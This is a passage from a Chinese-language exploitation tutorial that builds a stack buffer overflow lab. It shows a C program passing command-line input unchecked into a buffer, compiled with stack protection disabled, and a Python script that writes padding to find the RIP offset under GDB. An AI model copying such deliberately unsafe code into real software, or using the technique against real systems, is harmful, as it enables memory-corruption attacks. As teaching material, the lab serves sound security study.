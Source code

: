 ```
     return 0;
 }

 void main (int argc, char *argv[])
 {
     int local_variable = 1;
     copytobuffer(argv[1]);
     exit(0);
 }
```

此外，这里`shell_pwn`永远不会被执行，因为我们从未在这里调用它，但现在我们知道如何做。首先，让我们编译它：

```
 $ gcc -fno-stack-protector -z execstack exec.c -o exec
```

然后，在 GDB 中打开我们的代码：

```
$ gdb ./exec
```

然后，在`main`函数处设置断点：

```
$ break main
```

好的，现在让我们准备我们的利用程序来确认 RIP 寄存器的确切位置：

```
#!/usr/bin/python

 buffer = ''
 buffer += 'a'*24
 buffer += 'b'*6
 f = open("input.txt", "w")
 f.write(buffer)
```

然后，执行我们的利用程序：

```
$ ./exploit.py
```

现在，从 GDB 中运行以下命令：

```
$ run $(cat input.txt)
```

然后，它将在`main`函数处触发断点：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00243.jpeg)

按*C*然后*Enter*继续：
